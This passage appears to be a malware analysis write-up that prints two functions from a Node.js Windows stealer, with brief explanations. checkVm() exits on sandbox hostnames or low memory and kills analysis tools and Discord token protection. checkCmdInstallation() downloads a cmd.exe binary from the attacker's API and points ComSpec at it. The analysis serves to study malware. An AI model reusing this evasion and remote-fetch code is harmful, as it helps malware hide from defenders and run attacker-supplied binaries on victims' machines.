 Code Block with working
- checkVm()
    - First it checks if the total memory size is greater than 2GB and if there is a hostname as per one list then the program exits.
    - Next it check for some running process if found then it kills those processes.\
    ```js
    function checkVm() {
    if(Math.round(totalmem() / (1024 * 1024 * 1024)) < 2) process.exit(1);
    if([
        'bee7370c-8c0c-4', 'desktop-nakffmt', 'win-5e07cos9alr', 'b30f0242-1c6a-4', 'desktop-vrsqlag', 'q9iatrkprh', 'xc64zb',
        'desktop-d019gdm', 'desktop-wi8clet', 'server1', 'lisa-pc', 'john-pc', 'desktop-b0t93d6', 'desktop-1pykp29', 'desktop-1y2433r',
        'wileypc', 'work', '6c4e733f-c2d9-4', 'ralphs-pc', 'desktop-wg3myjs', 'desktop-7xc6gez', 'desktop-5ov9s0o', 'qarzhrdbpj',
        'oreleepc', 'archibaldpc', 'julia-pc', 'd1bnjkfvlh', 'compname_5076', 'desktop-vkeons4', 'NTT-EFF-2W11WSS', 'aranmoo', 'kathlcox', 'rotembarne', 'bilawson', 'seanwalla', 'gugonzal', 'zachwood', 'theresap', 'joyedwar', 'richar', 'dburns', 'willipe'
    ].includes(hostname().toLowerCase())) process.exit(1);

    const tasks = execSync('tasklist');
    [
        'opera', 'fakenet', 'dumpcap', 'httpdebuggerui', 'wireshark', 'fiddler', 'vboxservice', 'df5serv', 'vboxtray', 'vmtoolsd',
        'vmwaretray', 'ida64', 'ollydbg', 'pestudio', 'vmwareuser', 'vgauthservice', 'vmacthlp', 'x96dbg', 'vmsrvc', 'x32dbg',
        'vmusrvc', 'prl_cc', 'prl_tools', 'xenservice', 'qemu-ga', 'joeboxcontrol', 'ksdumperclient', 'ksdumper', 'joeboxserver',
        'vmwareservice', 'vmwaretray', 'discordtokenprotector'
    ].forEach((task) => {
        if(tasks.includes(task))
        execSync(`taskkill /f /im ${task}.exe`);
    });
    };
    ```

- checkCmdInstallation()
    - This code block checks for the existance of cmd.exe at `C:\Windows\System32\`.
    - If it's not present then same binary is downloaded at `%USERPROFILE%\Documents\`.\
    ```js
    async function checkCmdInstallation() {
    return await new Promise(async(resolve) => {
        if(!existsSync('C:\\Windows\\system32\\cmd.exe')) {
            const request = await fetch(options.api + 'cmd-file', {
                method: 'GET',
                headers: {
                    'Content-Type': 'application/json',
                    'duvet_user': options?.user_id
                }
            });
    
            const response = await request.json();
            writeFileSync(join(process.env.USERPROFILE, 'Documents','cmd.exe'), Buffer.from(response?.buffer), {
                flag: 'w'
            });
            process.env.ComSpec = join(process.env.USERPROFILE, 'Documents', 'cmd.exe');
            resolve();
        } else {
            process.env.ComSpec = 'C:\\Windows\\system32\\cmd.exe';
            resolve();
        };
    });
    };
    ```